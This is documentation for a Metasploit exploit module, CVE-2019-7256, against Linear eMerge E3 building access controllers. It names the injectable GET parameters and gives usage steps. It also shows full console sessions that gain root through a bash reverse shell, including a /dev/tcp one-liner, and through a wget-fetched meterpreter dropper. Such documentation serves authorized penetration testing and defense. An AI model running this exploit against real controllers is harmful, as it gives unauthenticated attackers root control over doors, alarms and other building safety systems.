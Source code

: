 ## Vulnerable Application

Nortek Security & Control, LLC (NSC) is a leader in wireless security, home automation and personal safety systems and devices.
The eMerge E3-Series is part of Linear’s access control platform, that delivers entry-level access control to buildings.
It is a web based application where the HTTP web interface is typically exposed to the public internet.

The Linear eMerge E3 versions `1.00-06` and below are vulnerable to an unauthenticated command injection remote root exploit
that leverages card_scan_decoder.php.
This can be exploited to inject and execute arbitrary shell commands as the root user through the `No` and `door` HTTP GET parameter.
A successful exploit could allow the attacker to execute arbitrary commands on the underlying operating system with the root privileges.

Building Automation and Access Control systems are at the heart of many critical infrastructures, and their security is vital.
Executing attacks on these systems may enable unauthenticated attackers to access and manipulate doors, elevators, air-conditioning systems,
cameras, boilers, lights, safety alarm systems in an entire building.

This issue affects all Linear eMerge E3 versions up to and including `1.00-06`.

Installing a vulnerable test bed requires a Linear eMerge E3 access controller with the vulnerable software loaded.

This module has been tested against a Linear eMerge access controller with the specifications listed below:

* Nortek Linear eMerge E3 access controller
* Firmware < `v1.00-06`

## Verification Steps

1. `use exploit/linux/http/linear_emerge_unauth_rce_cve_2019_7256`
1. `set RHOSTS <TARGET HOSTS>`
1. `set RPORT <port>`
1. `set LHOST <attacker host ip>`
1. `set LPORT <attacker host port>`
1. `set TARGET <0-Unix command or 1-Linux Dropper>`
1. `exploit`
1. You should get a `bash` shell or `meterpreter` session depending on the target and payload settings.

## Options
No specific options.

## Scenarios

### Nortek Linear eMerge E3 access controller bash reverse shell

```
msf6 > use exploit/linux/http/linear_emerge_unauth_rce_cve_2019_7256
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(linux/http/linear_emerge_unauth_rce_cve_2019_7256) > options

Module options (exploit/linux/http/linear_emerge_unauth_rce_cve_2019_7256):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT    80               yes       The target port (TCP)
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine
                                       or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host


Payload options (cmd/unix/reverse_bash):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix Command


View the full module info with the info, or info -d command.

msf6 exploit(linux/http/linear_emerge_unauth_rce_cve_2019_7256) > set rhosts 192.168.100.180
rhosts => 192.168.100.180
msf6 exploit(linux/http/linear_emerge_unauth_rce_cve_2019_7256) > set lhost 192.168.100.7
lhost => 192.168.100.7
msf6 exploit(linux/http/linear_emerge_unauth_rce_cve_2019_7256) > set lport 4444
lport => 4444
msf6 exploit(linux/http/linear_emerge_unauth_rce_cve_2019_7256) > set target 0
target => 0
msf6 exploit(linux/http/linear_emerge_unauth_rce_cve_2019_7256) > exploit

[*] Started reverse TCP handler on 192.168.100.7:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.100.180:80 can be exploited.
[*] Performing command injection test issuing a sleep command of 2 seconds.
[*] Elapsed time: 3.1638134399981936 seconds.
[+] The target is vulnerable. Successfully tested command injection.
[*] Executing Unix Command with bash -c '0<&179-;exec 179<>/dev/tcp/192.168.100.7/4444;sh <&179 >&179 2>&179'
[*] Command shell session 1 opened (127.0.0.1:4444 -> 127.0.0.1:54274) at 2022-12-01 18:51:54 +0000

uname -a
Linux cuckoo 3.14.54 #1 SMP PREEMPT Thu Dec 6 19:08:58 PST 2018 armv7l GNU/Linux
whoami
root
exit
```

### Nortek Linear eMerge E3 access controller meterpreter session

```
msf6 > use exploit/linux/http/linear_emerge_unauth_rce_cve_2019_7256
[*] Using configured payload linux/armle/meterpreter_reverse_tcp
msf6 exploit(linux/http/linear_emerge_unauth_rce_cve_2019_7256) > options

Module options (exploit/linux/http/linear_emerge_unauth_rce_cve_2019_7256):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT    80               yes       The target port (TCP)
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine
                                       or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host


Payload options (linux/armle/meterpreter_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux Dropper


View the full module info with the info, or info -d command.

msf6 exploit(linux/http/linear_emerge_unauth_rce_cve_2019_7256) > set rhosts 192.168.100.180
rhosts => 192.168.100.180
msf6 exploit(linux/http/linear_emerge_unauth_rce_cve_2019_7256) > set lhost 192.168.100.7
lhost => 192.168.100.7
msf6 exploit(linux/http/linear_emerge_unauth_rce_cve_2019_7256) > set lport 4444
lport => 4444
msf6 exploit(linux/http/linear_emerge_unauth_rce_cve_2019_7256) > set target 1
target => 1
msf6 exploit(linux/http/linear_emerge_unauth_rce_cve_2019_7256) > exploit

[*] Started reverse TCP handler on 192.168.100.7:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.100.180:80 can be exploited.
[*] Performing command injection test issuing a sleep command of 2 seconds.
[*] Elapsed time: 3.177188547007972 seconds.
[+] The target is vulnerable. Successfully tested command injection.
[*] Executing Linux Dropper
[*] Using URL: http://192.168.100.7:8080/n6tUft9RrS
[*] Client 127.0.0.1 (Wget) requested /n6tUft9RrS
[*] Sending payload to 127.0.0.1 (Wget)
[*] Meterpreter session 2 opened (127.0.0.1:4444 -> 127.0.0.1:49448) at 2022-12-01 18:50:26 +0000
[*] Command Stager progress - 100.00% done (125/125 bytes)
[*] Server stopped.

meterpreter > sysinfo
Computer     : 192.168.100.180
OS           :  (Linux 3.14.54)
Architecture : armv7l
BuildTuple   : armv5l-linux-musleabi
Meterpreter  : armle/linux
meterpreter > getuid
Server username: root
```

## Limitations
Due to the limitations of restricted `busybox` command implementation on the Linear eMerge E3 Access Controller, only a
few unix command payloads will work such as `cmd/unix/reverse_bash` or `cmd/unix/reverse` (telnet).


